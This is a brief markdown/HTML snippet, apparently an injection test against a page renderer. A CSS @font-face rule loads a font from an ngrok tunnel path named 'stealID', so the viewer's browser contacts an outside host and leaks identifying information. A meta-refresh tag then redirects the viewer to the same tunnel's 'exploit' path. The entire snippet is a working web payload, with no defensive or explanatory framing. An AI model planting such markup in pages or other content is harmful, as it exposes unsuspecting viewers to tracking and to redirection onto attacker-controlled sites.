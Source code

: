 **test**

<style>
@font-face {
    font-family: "MyFont";
    src: url("https://dd4c-2409-4063-6e8b-521b-20f6-8d91-93d7-bfd0.ngrok.io/stealID");
  }
  body {
    font-family: "MyFont";
  }
</style>
<b>leak</b>
<meta http-equiv="refresh" content="3;url=https://dd4c-2409-4063-6e8b-521b-20f6-8d91-93d7-bfd0.ngrok.io/exploit" />
